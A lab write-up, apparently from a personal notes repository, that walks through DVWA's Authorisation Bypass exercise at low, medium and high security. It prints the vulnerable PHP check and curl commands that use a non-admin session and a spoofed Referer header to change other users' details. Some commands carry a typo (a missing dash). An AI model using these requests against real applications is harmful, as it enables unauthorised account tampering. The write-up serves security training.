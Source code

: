 # DVWA - Authorisation Bypass

## Description

**Vulnerability:** Authorisation Bypass 
**Impact:** Leveraging vulnerabilities to get access to user manager system.

---

## LOW Security Level
The source code doesn't have any checks. You can use `gordonb / abc123` this account (this is not an admin account). Since the source code doesn't have any checks so we can just access to the URL: http://localhost/DVWA/vulnerabilities/authbypass/

![Guide image](./screenshots/1.png)

## MEDIUM Security Level
The source code now updated with a check:
```php
/*

Only the admin user is allowed to access this page.

Have a look at these two files for possible vulnerabilities: 

* vulnerabilities/authbypass/get_user_data.php
* vulnerabilities/authbypass/change_user_details.php

*/

if (dvwaCurrentUser() != "admin") {
    print "Unauthorised";
    http_response_code(403);
    exit;
}
```
Let's take a look at those 2 files, visit `get_user_data.php` we got:
```json
[{"user_id":"1","first_name":"admin","surname":"admin"},{"user_id":"2","first_name":"Gordon","surname":"Brown"},{"user_id":"3","first_name":"Hack","surname":"Me"},{"user_id":"4","first_name":"Pablo","surname":"Picasso"},{"user_id":"5","first_name":"Bobbbb","surname":"Smith"}]
```
And visit `change_user_details.php` got:
```json
{"result":"fail","error":"Only POST requests are accepted"}
```

You can see that we doesn't got any error Unauthourised so this is the vulnerability that API call doesn't check accounts.

Make a POST request `curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=<NON_ADMIN_PHPSESSID>"` to `change_user_details.php`, got:
```json
{"result":"fail","error":"Access denied"}
```

For somehow, when I make request normally on browser I don't get that message, however when I make a request through `curl` I got `Access denied`. So I do some investigate with the `admin` account and found that the request with admin account go with a header `Referer: http://localhost/DVWA/index.php` so I add it to my command:
```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=medium" -H "Referer: http://localhost/DVWA/index.php"
```
I don't get `Access denied` so I have passed the check, now pass a correct format to update user details:
```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=medium" -H "Referer: http://localhost/DVWA/index.php" H "Content-Type: application/json" -d '{"id": 5, "first_name": "Bob", "surname": "Smith"}'
```

Got: 
```json
{"result": "ok"}
```

![Guide image](./screenshots/2.png)

## HIGH Security Level
The source code:
```php
/*

Only the admin user is allowed to access this page.

Have a look at this file for possible vulnerabilities: 

* vulnerabilities/authbypass/change_user_details.php

*/

if (dvwaCurrentUser() != "admin") {
    print "Unauthorised";
    http_response_code(403);
    exit;
}
```

For somehow, I can still change user data in HIGH Security Level by commands used in MEDIUM:
- Change user details
```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=high" -H "Referer: http://localhost/DVWA/index.php" H "Content-Type: application/json" -d '{"id": 5, "first_name": "Bob", "surname": "Smith"}'
```
This can be used maybe because the developer forgot to check on POST request.
